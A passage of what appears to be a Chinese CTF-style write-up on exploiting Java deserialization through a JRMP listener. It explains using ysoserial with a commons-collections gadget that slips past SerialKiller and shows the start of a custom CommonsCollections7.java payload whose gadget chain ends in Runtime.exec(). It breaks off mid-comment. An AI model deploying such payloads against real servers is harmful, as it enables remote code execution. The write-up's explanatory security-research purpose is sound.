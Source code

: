```
        System.out.println(java.util.Base64.getEncoder().encodeToString(out.toByteArray()).toString());
    `}`
`}`
```

服务器监听可以成功接受到请求

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01bd2aa8e50a3daf51.png)

下面要做的就是用ysoserial开一个jrmp监听，把真正的payload回传给服务器。虽然构造用的gadget是走commons-collections但是这里不过serialkiller所以不会被拦截。因为之前提示说过这个环境不能执行命令，所以需要自己在ysoserial中自定义个一个反射链，[随风师傅博客中提到的classloder方案](https://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/)

最后代码如下 CommonsCollections7.java

```
package ysoserial.payloads;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.JavaVersion;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;

import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/*
    Gadget chain:
       ObjectInputStream.readObject()
           AnnotationInvocationHandler.readObject()
              Map(Proxy).entrySet()
                  AnnotationInvocationHandler.invoke()
                     LazyMap.get()
                         ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                   Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                   Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                   Runtime.exec()

    Requires:
       commons-collections
 */
/*
This only works in JDK 8u76 and WITHOUT a security manager

```